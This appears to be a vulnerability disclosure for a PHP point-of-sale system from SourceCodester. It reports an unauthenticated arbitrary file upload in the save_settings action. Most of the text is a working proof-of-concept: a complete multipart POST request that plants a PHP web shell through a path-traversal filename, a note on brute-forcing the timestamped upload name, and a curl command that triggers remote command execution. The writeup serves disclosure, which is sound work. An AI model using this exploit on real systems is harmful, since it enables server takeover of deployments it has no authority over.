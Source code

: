 # Best pos management system in php V1.0 - Broken Access Control

### You do not need to log in and open the website storage directory

Supplier:https://www.sourcecodester.com/php/16127/best-pos-management-system-php.html

http://localhost/ajax.php?action=save_settings   -----> POST request ----->  'filename' can control some filename parameters

Vulnerability location: There is a save_settings function in the root directory of the website's admin_class.php file, which causes any file to be written. This function is triggered by the 'action' parameter of save_settings passed in from the ajax.php file.

Web function point, after logging into the background, System Settings ->Image

Source code location: line 165 of the admin_class.php file in the root path.

![2](/img/Best-pos-management-system-in-php/11.png)

POST:
```
POST /ajax.php?action=save_settings HTTP/1.1
Host: www.kruxton.com:8083
Content-Type: multipart/form-data; boundary=---------------------------988021490109555064829866363
Content-Length: 685

-----------------------------988021490109555064829866363
Content-Disposition: form-data; name="name"

5
-----------------------------988021490109555064829866363
Content-Disposition: form-data; name="email"

3@gmail.com
-----------------------------988021490109555064829866363
Content-Disposition: form-data; name="contact"

2
-----------------------------988021490109555064829866363
Content-Disposition: form-data; name="about"

1113
-----------------------------988021490109555064829866363
Content-Disposition: form-data; name="img"; filename="../../shell.php"
Content-Type: image/png

<?php system("dir");
-----------------------------988021490109555064829866363--
```

![3](/img/Best-pos-management-system-in-php/12.png)

Analyze the source code and name the uploaded file as timestamp+_+file name, which can be brute force cracked to obtain the file name.

![5](/img/Best-pos-management-system-in-php/14.png)

```cli
curl "http://www.xxxxx.com/assets/uploads/1709986620_shell.php"
```

![4](/img/Best-pos-management-system-in-php/13.png)

Successfully executed dir command!
